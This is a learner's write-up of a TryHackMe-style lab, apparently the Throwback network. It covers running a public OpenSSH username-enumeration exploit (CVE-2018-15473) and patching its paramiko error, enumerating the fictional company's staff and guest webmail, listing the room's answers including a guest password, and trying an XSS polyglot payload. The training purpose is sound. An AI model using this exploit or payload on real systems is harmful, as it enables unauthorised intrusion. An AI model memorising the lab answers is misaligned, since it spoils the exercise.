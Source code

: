 # Exploring the Caverns Part Three 

Part three now, but I feeling the momentuum of progression. Plan of attack before attempting to even look to answering questions on the Task 8 Drop-Down is as follows:

CVE-2018-15473 to get as many credientals as possible before SMB enumeration with [Enum4linux]() and [smbmap](), exfiltrating share data and credientals. If possible try to get foothold and maintain persistance with couple backdoors(just try to emulate what I atleast read about and tried in various THM rooms).

[CVE-2018-15473](https://nvd.nist.gov/vuln/detail/CVE-2018-15473_) states:  
*"OpenSSH through 7.7 is prone to a user enumeration vulnerability due to not delaying bailout for an invalid authenticating user until after the packet containing the request has been fully parsed, related to auth2-gss.c, auth2-hostbased.c, and auth2-pubkey.c."*

[exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)
```bash
python3 sshUsernameEnumExploit.py 
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 33, in <module>
    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
TypeError: 'property' object is not subscriptable

```
[issue:1](https://github.com/Rhynorater/CVE-2018-15473-Exploit/issues)

Find and replace all instances on \_handler_table with:
```bash
vim sshUsernameEnumExploit.py
:%s/_handler_table/_client_handler_table/gc
# Press a!
```
We then get:
```bash
python3 sshUsernameEnumExploit.py 
usage: sshUsernameEnumExploit.py [-h] [--port PORT] [--threads THREADS]
                                 [--outputFile OUTPUTFILE]
                                 [--outputFormat {list,json,csv}]
                                 (--username USERNAME | --userList USERLIST)
                                 hostname
sshUsernameEnumExploit.py: error: the following arguments are required: hostname
```
Find wordlists for usernames
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# locate usernames
/root/Rooms/BreachingAD/task3/usernames.txt
/usr/share/nmap/nselib/data/usernames.lst
/usr/share/wordlists/SecLists/Usernames/cirt-default-usernames.txt
/usr/share/wordlists/SecLists/Usernames/mssql-usernames-nansh0u-guardicore.txt
/usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames-dup.txt
/usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt
/var/lib/docker/overlay2/2d199c7783384d3e7736d37c79af646abb52d47edade257e9f6d0dd4192156c0/diff/usr/share/nmap/nselib/data/usernames.lst
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/blank_usernames.rb
/var/lib/gems/2.5.0/gems/metasploit-credential-3.0.4/spec/factories/metasploit/credential/usernames.rb
```
More Errors:
```bash
root@ip-10-10-207-14:~/CVE-2018-15473-Exploit# python3 sshUsernameEnumExploit.py --port 22 --threads 16 --outputFormat list --outputFile /root/sshoutTBPROD.txt --userList /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 10.200.102.219
Traceback (most recent call last):
  File "sshUsernameEnumExploit.py", line 204, in <module>
    main()
  File "sshUsernameEnumExploit.py", line 151, in main
    if not checkVulnerable():
  File "sshUsernameEnumExploit.py", line 94, in checkVulnerable
    result = checkUsername(user)
  File "sshUsernameEnumExploit.py", line 82, in checkUsername
    transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 1580, in auth_publickey
    return self.auth_handler.wait_for_response(my_event)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/auth_handler.py", line 236, in wait_for_response
    raise e
  File "/usr/local/lib/python3.6/dist-packages/paramiko/transport.py", line 2055, in run
    ptype, m = self.packetizer.read_message()
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 459, in read_message
    header = self.read_all(self.__block_size_in, check_rekey=True)
  File "/usr/local/lib/python3.6/dist-packages/paramiko/packet.py", line 301, in read_all
    x = self.__socket.recv(n)
ConnectionResetError: [Errno 104] Connection reset by peer

```

While this a very meta-room note: after using nuclei on many other THM boxes it seems like this a somewhat unintended path. To get username enumeration, but seeing as I has yet to use this exploit and for the better of script modification and OSCP. I'll give this attempt futher credence at slightly later point, after manual website enumeration. 

## Manual Enumeration

![Intial](Screenshots/Inital.png)

### TB-PROD

Throwback Hacks is a IT Security Company, based out of the UK that like most British people use Latin to sound important and also accept as currency for services in the American Dollar. 

Powered by w3.css

Users 
http://10.200.102.219/#team

Summer Winters - CEO
Jeff Davies - CFO
Hugh Gongo - CTO
Rikka Foxx - Lead Dev

http://10.200.102.219/#contact

 Great Britain
 Phone: +00 151515
 Email: hello@TBHSecurity.com - @TBHSecurity company email 

### TB-EMAIL

http://10.200.102.232/src/webmail.php
Using Guest credentials:

![TBH-Email](Screenshots/TBH-Email.png)

![Inbox-Sent](Screenshots/TBH-Email-Flag.png)

tbhguest@throwback.local - internal email.

![Contacts](Screenshots/Contacts-List.png)

On the contacts tab all the local email addresses are avaliable for a guest user to email. This would present a flaw in the attempt to maintain high stardards of confidentality. This mailing list is goldmine for APT groups and cyber-criminals without phishing. The CEO, CFO,  CTO internal email addresses are exposed.

In the inbox.Sent a "NotAShell.exe" has been sent to 

![Inbox-Sent](Screenshots/Inbox-Sent-Guest1.png)


## THB-FW

pFsense login

![pfSense](Screenshots/pfSenseLogin.png)


## Answers

Who is the CEO of Throwback Hacks? 
```{toggle}
Summers Winters

```
Where is the company located?
```{toggle}
Great Britain
```
What is the guest username on the mail server?
```{toggle}
tbhguest
```
What is the guest password on the mail server?
```{toggle}
WelcomeTBH1!
```

## Finally
I realised that this experience was still quite fenced in given the amount of clickables and user input. And seeing as I have yet to complete the Phishing rooms and that one the advertised parts of this is phishing. Before moving forward I tried:
xxs polyglot:
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

Attempt:
![xxsPoly](Screenshots/xxsPoly-Prod-attempt.png)

Response 
![xxsResp](Screenshots/xxsPoly-Prod-attempt-response..png)

I broke the burp suite browser trying this so had to restart. Maybe something to return too.